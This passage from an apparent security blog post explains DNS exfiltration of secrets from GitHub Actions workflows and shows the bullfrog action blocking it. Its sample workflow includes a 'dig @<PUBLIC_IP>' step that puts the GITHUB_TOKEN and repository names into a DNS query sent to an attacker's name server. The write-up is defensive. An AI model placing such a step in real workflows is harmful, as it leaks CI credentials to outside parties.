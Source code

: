 Replace `<PUBLIC_IP>` with the public IP address of your DNS server and run the workflow above. You should see the private repo being cloned on the server where the custom DNS server is running. A short-lived and ephemeral access token couldn't prevent against DNS exfiltration.

## Protecting Against DNS Exfiltration

Traditional security solutions that provide egress filtering will require you to allow or block specific IP addresses or IP ranges. Given the highly dynamic nature of IP addresses for most cloud services, this unfortunately doesn't meet most teams and organizations needs. There are some more sophisticated security solutions that allow you to filter based on domain names. Unfortunately, some of them do not provide the necessary protection against DNS exfiltration. The problem is that they allow all DNS queries and only block traditional TCP/UDP connections to IP addresses of domains that are not allowed, but in the case of DNS exfiltration, the harm has already been done during the IP resolution.

Solutions like [bullfrog](https://github.com/bullfrogsec/bullfrog) are purpose-built for providing egress filtering capabilities in Github Actions workflow and can effectively protect against DNS exfiltration. To block DNS exfiltration in our POC workflow, we add a step at the beginning of the job that use the [bullfrog Github Action](https://github.com/bullfrogsec/bullfrog):

```yml {hl_lines=[10,11,12,13,14,15]}
name: DNS Exfiltration

on:
  push:

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: Egress filtering
        uses: bullfrogsec/bullfrog@v0
        with:
          egress-policy: block
          allowed-domains: |
            *.github.com
      - run: |
          repo=$(echo ${{ github.repository }}  | cut -d'/' -f2)
          dig @<PUBLIC_IP> ${{ github.repository_owner}}.$repo.${{ secrets.GITHUB_TOKEN}}.dnsx.github.com
```

If you run the example workflow above, you should see the DNS query for the `dnsx.github.com` domain being blocked (in the workflow annotations) and you won't see the DNS query being received by your custom DNS server. Even with the `*.github.com` domains being allowed in bullfrog, the query is blocked because the specified name server is not trusted.

![block annotations for DNS queries](block-annotations.png)
